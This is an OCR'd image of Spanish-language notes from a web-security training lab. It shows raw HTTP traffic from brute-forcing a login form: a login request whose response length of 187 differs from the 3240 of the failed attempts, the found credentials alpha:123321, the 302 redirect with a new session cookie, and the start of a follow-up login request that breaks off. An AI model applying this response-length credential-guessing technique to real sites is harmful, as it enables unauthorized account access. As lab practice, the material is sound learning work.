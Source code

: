 ```python


REQUEST CORRECTA DIO LENGH de 187 a difencia de los erroneos 3240:


POST /login HTTP/2
Host: 0ae80007045692bb80d78ae80012009a.web-security-academy.net
Cookie: session=xgGiuob4Y682GN1VsK8Zk4edcSG5ZXJ8
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Origin: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9
Connection: keep-alive

username=alpha&password=123321





RESPONSE CORRECTA:


HTTP/2 302 Found
Location: /my-account?id=alpha
Set-Cookie: session=loayjYCjc0gkseiI2PqipNnLKJqtLPax; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0




BINGO TENEMOS USUARIO Y PASSSWORD:  alpha:123321








NOS LOGUEAMOS REQUEST:




POST /login HTTP/2
Host: 0ae80007045692bb80d78ae80012009a.web-security-academy.net
```